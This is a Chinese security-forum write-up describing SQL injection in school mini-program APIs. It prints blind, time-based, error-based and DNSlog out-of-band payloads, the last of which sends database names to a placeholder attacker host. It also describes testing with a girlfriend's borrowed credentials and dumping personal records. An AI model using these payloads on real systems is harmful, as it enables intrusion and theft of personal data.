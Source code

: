 # edu-SQL注入案例分享

# 0x00 前言

最近陪别人挖小程序，没有解包操作，就对单纯的数据包进行测试，发现SQL注入还是很多的，小程序开发对接口权限频和SQL繁出现问题，因此导致大量信息泄露。而且在大多数均在json接口中出现，下面是几个简单案例，希望对你有用，学会了后每天一个SQL应该不在话下，这几个案例都是一周之内发现的。

# 0x01 我爱我的女朋友

**本案例废话编辑：北纬以北**

**实操：浪飒**

闲来无事，想挖挖小程序漏洞，然后想到女朋友学校貌似还没动过嘿嘿，要来了账号密码先登录了他们学校的门户网站，一通乱搞，啥也没发现，不死心去小程序看了看，随记录本次测试流程。

这里直接打开小程序，配置好burp和proxifier抓包

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-75fe21840f5829d1dfcb520a263d6709b36118c2.png) ![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e0ae874d5975b5a0aa0f2eca0d141afa42003f56.png)

打开小程序自动抓取了两个数据包，这里一看，直接遍历api参数，看看能返回那些数据，遍历就不放图出来了，发现1-27都有数据，其中不乏包括姓名，身份证，学号，班级，校区，有住址，手机号等，其中身份证条数更是多达八万多条，随便放两张图。

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-f9d07db7ba230e753755466a5b9146b775553ed9.png)![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-5140f9230e843da0f44d2842218f8df263e25083.png)

测试到这儿我以为结束了，准备关闭小程序交洞去了，手突然碰到一个单引号，突然点了个发送，巧了，返回包突然出现了报错。

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-4c91a22501b1eb422d5a1f173f2603b83480bb56.png)

这里我进入了死胡同，一直拿着api参数注入，后面发现后面还有个参数order_flow_status，貌似是表示字段，这里果断换成身份证字段进行注入，后面发现存在waf，很多报错函数被拦截，于是使用盲注手法进行注入。

## sql注入常用函数

1、system_user()系统用户名
​
2、user()用户名
​
3、current_user()当前用户名
​
4、session_user()链接数据库的用户名
​
5、database()数据库名
​
6、version()数据库版本
​
7、@@datadir数据库路径
​
8、@@basedir数据库安装路径
​
9、@@version_conpile_os操作系统
​
10、count()返回执行结果数量
​
11、concat()没有分隔符的链接字符串
​
12、concat_ws()含有分隔符的连接字符串
​
13、group_concat()连接一个组的所有字符串，并以逗号分隔每一条数据
​
14、load_file()读取本地文件
​
15、into outfile 写文件
​
16、ascii()字符串的ASCII代码值
​
17、ord()返回字符串第一个字符的ASCII值
​
18、mid()返回一个字符串的一部分
​
19、substr()返回一个字符串的一部分
​
20、length()返回字符串的长度
​
21、left()返回字符串最左面几个字符
​
22、floor()返回小于或等于x的最大整数
​
23、rand()返回0和1之间的一个随机数

**该系统有WAF，禁用的函数有**：select，ascii，substr，sleep，waitfor delay，mid，left，concat等等。

最终不断测试还好database和length没有禁用。

## 测试注入

当前执行的为exp(0)=1返回为true,因此查到数据，但因数据太大，则数据在burp不显示，而数据则为接口越权返回的数据相同。当前执行的为exp(0)=2返回为false,因此查到数据为空，证明存在布尔型盲注。

**下图SQL解释：**如果数据库名称长度为1，则返回1，否则exp(0)=1

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-89a299f9d10276dafd5e9fd15c8dfac3ebd0eda0.png)![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-6f6f3363b8f5c9190f6f6e730a1958dcd8a097ff.png)

## 查数据库版本

通过测试发现数据库版本长度为10

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-d34a8bd76e892486b9d747b534b5c4c4a0fac7fb.png)

利用ord()和right()函数爆破数据库版本，对照ASCII编码表很轻松就能得知数据库版本，这里随意放两张爆破图

- ord()：返回字符串第一个字符的ASCII值
- right()：返回字符串最右面几个字符

**下图SQL解释：**如果数据库版本从右往左数第十位的ASCII值为53为真，返回1(true)，否则返回exp(0)=2(false)。

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e8af0a3208e0ee78ecd50f86ed87d687ef3db5e4.png)![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-5ba272f34c83909a1561876ee177b5c79732ccde.png)

通过逐个遍历遍历，第九第八最终得出数据库版本

最终数据库版本为5.7.30-log

## 查数据库名称

再度查询到数据库长度为12，经过爆破后得到数据库名为xxx_xxx_xxxx,随意放两张截图

![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-3305f1307756a542046a1295f2c672492f31fa35.png)![img](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-c586e2b27ea47710a087a9283b259765e8f9248b.png)

# 0x02 就诊需谨慎

某学校就诊挂号小程序点击进入，在userID处写27551 or 1=1 恒为真时，返回全部数据，包括身份证，电话，住址等等。

![image-20230614123842178](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-50610afaf28a6b452116420b90987627fe1ff4db.png)

尝试联合注入发现缺少from关键字，联想到在 oracle中使用查询语句必须跟一个表名，因此猜测是Oracle数据库

![image-20230614124421725](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-b01fcc89a9ae6b73d50f962134ca791b13453db0.png)

下面尝试两种形式证明漏洞

## **延时注入**

SQL语句：and DBMS_PIPE.RECEIVE_MESSAGE('ICQ',5)=1

延时10秒

![image-20230614124617443](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-959dc69ad5306a8387e65185b5c30096e5d285ce.png)

延时5秒

![image-20230614124731230](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-e1a837fd75057d5ff4d23bb09aa61d5643f9068d.png)

## DNSlog注入

由于延时注入太耗费时间，选择数据带外

![image-20230614130623660](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-658020a2a79370d3c64eafec74771ff20026199c.png)

SQL语句：查询用户名

and (select utl_inaddr.get_host_address((select user from dual)||'.dnslog地址') from dual)is not null --

![image-20230614130524387](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9b76cc4205f0f9770b787b98e52b8c047bbedeb3.png)

SQL语句：查询库名

and (select utl_inaddr.get_host_address((select name from v$database)||'.dnslog地址') from dual)is not null --

![image-20230614131005879](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-d87e8b32982edfb073c5baf5ee799cc787fc8342.png)

![image-20230614131038272](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9ebaf85da07863a7ae954f11fa8be94ed184d8cb.png)

# 0x03 两个常规注入

## 报错注入

常规sql报错语句，无WAF：

'and (updatexml(1,concat(0x7e,(select database()),0x7e),1)) -- q

![image-20230614135021781](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-a3b76dbe4040e9bcf5967329dd959406d7c21081.png)

## 可直接SQLmap

> 小贴士：小程序sql注入直接粘贴burp中的包是跑不出来的，因为强制https的原因，我们需要在host后面加上443端口。

![image-20230614135223055](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-1f315dc87f05885dbe13fab81e92f4936d096a26.png)

![image-20230614135313327](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-00b1cf3168a849680a7d31572ff798667e70ee63.png)

# 0x04 总结

上述sql注入均为小程序中出现的漏洞。

小程序中在不反编译代码的情况下，一般测试如下：

1. 点击所有功能，逐个分析每个数据包，极大概率存在敏感信息泄露和未授权的接口。
2. 对参数进行挨个测试，在用户名，id，分页功能处均可能存在SQL注入，且尽量使用手工，sqlmap说不定会让你错过很多注入的洞，有十足把握或者无WAF再尝试sqlmap。
3. 文件上传大多为静态目录，可能存在极少数会上传后端拿到shell。
4. 平行越权大概率有SQL注入。